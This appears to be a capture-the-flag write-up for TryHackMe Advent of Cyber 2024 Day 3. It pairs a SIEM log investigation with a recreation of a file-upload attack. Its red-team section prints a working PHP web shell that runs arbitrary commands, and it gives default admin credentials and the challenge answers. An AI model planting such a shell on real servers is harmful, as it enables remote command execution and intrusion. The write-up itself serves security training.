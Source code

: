 # 🎄 TryHackMe Advent of Cyber 2024 – Day 3: Log Analysis

## Objectives 🎯

1. Investigate suspicious activity on Frosty Pines Resort’s web server using Elastic SIEM.
2. Identify how a web shell was uploaded and accessed.
3. Exploit the same vulnerability to recreate the attack and retrieve the hidden flag.

## Steps 🚀

### Step 1: Investigating the Logs (Blue Team)

#### Setting Up Elastic SIEM
1. Logged into **Kibana** at `http://MACHINE_IP:5601`.
2. Selected the **frostypines-resorts** index under the **Discover** tab.
3. Adjusted the timeframe to:
   ```
   October 1, 2024, 00:00 – October 3, 2024, 20:00
   ```
4. Added relevant fields:
   - `requests`
   - `clientip`
5. Searched for `"shell.php"` in the `requests` field.

#### Findings
- **Where was the web shell uploaded to?**  
  **Answer:** `/media/images/rooms/shell.php`
- **What IP address accessed the web shell?**  
  **Answer:** `10.11.83.34`

### Step 2: Exploiting the RCE Vulnerability (Red Team)

#### Exploit Steps
1. **Edit Hosts File:**
   - Added `MACHINE_IP frostypines.thm` to `/etc/hosts`.
2. **Log In:**
   - Accessed `http://frostypines.thm` and logged in using:
     - **Username:** admin@frostypines.thm
     - **Password:** admin
3. **Prepare Web Shell:**
   - Created `shell.php` with the following code:
     ```
     <html>
     <body>
     <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
     <input type="text" name="command" autofocus id="command" size="50">
     <input type="submit" value="Execute">
     </form>
     <pre>
     <?php
         if(isset($_GET['command'])) 
         {
             system($_GET['command'] . ' 2>&1'); 
         }
     ?>
     </pre>
     </body>
     </html>
     ```
4. **Upload the Web Shell:**
   - Uploaded `shell.php` as the room image under “Add Room.”
5. **Locate the Shell:**
   - Confirmed the upload at:  
     `http://frostypines.thm/media/images/rooms/shell.php`
6. **Retrieve the Flag:**
   - Accessed the shell and executed:
     ```
     cat flag.txt
     ```

#### Result
- **What is the content of the flag.txt?**  
  **Answer:** `THM{Gl1tch_Was_H3r3}`

## Key Findings 🔑

1. **Upload Location:** The web shell was uploaded to `/media/images/rooms/shell.php`.
2. **Access Point:** The attacker’s IP was `10.11.83.34`.
3. **Exploit Success:** By recreating the attack, I retrieved the flag using the web shell.

## Lessons Learned 🌟

### Blue Team Insights
1. **Log Analysis Matters:** Elastic SIEM made it efficient to trace the attacker’s actions and pinpoint suspicious activity.
2. **Correlate Data:** Adding context with fields like `requests` and `clientip` accelerated the investigation.
3. **Monitoring Uploads:** Unvalidated file uploads are a significant security gap.

### Red Team Insights
1. **Web Shell Simplicity:** A basic PHP script can compromise a system, emphasizing the importance of validating uploaded files.
2. **Default Credentials Are Dangerous:** The admin account used weak credentials (`admin/admin`), making it an easy target.
3. **Defense Against Exploits:** Proper input validation and access controls could have mitigated this attack.

## Tools and Techniques 🛠️

1. **[Elastic SIEM](https://www.elastic.co/security/siem):** Used to investigate web server logs and identify attacker activity.  
2. **Text Editor:** Created the PHP web shell to exploit the vulnerability.  
3. **Browser:** Navigated and interacted with the Frosty Pines Resort website during the attack.  

## Final Thoughts 🎁

Day 3 highlighted the importance of both offensive and defensive skills in cybersecurity. Investigating the logs with Elastic SIEM provided clear insights into the attack, while exploiting the vulnerability demonstrated how impactful simple security oversights can be. Excited to tackle Day 4!

### Answers ✅
1. **Where was the web shell uploaded to?**  
   **Answer:** `/media/images/rooms/shell.php`
2. **What IP address accessed the web shell?**  
   **Answer:** `10.11.83.34`
3. **What is the content of the flag.txt?**  
   **Answer:** `THM{Gl1tch_Was_H3r3}`

## Table of Contents 📚

- [Main Page](README.md)
- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis Challenge](day2.md)
- **[Day 3: Log Analysis](day3.md)**
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE Exploitation](day5.md)
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Log Analysis](day7.md)
- [Day 8: Shellcodes](day8.md)
- [Day 9: Risk Assessment](day9.md) 
- [More Days to Come!](#)
